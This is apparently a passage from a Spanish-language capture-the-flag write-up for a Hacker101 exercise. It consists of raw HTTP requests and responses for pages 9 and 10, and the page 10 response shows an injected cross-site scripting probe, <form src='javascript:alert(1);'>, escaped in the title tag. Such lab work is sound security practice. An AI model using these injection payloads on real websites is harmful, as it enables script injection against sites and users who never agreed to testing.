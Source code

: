 ```HTTP
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/page/10">/page/10</a>. If not, click the link.
```

**Observaciones**

En ambas pruebas se crean las páginas.

**Acceso a las páginas 9 y 10**

**Página id 9**
```HTTP
GET /page/9 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4


HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 210
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 15:45:48 GMT
Server: openresty/1.27.1.2

<!doctype html>
<html>
    <head>
        <title></title>
    </head>
    <body>
        <a href="../">&lt;-- Go Home</a><br>
        <a href="edit/9">Edit this page</a>
        <h1></h1>

    </body>
</html>
```

**Página id 10**
```HTTP
GET /page/10 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4


HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 324
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 15:46:46 GMT
Server: openresty/1.27.1.2

<!doctype html>
<html>
    <head>
        <title>&lt;form src='javascript:alert(1);'&gt;</title>
```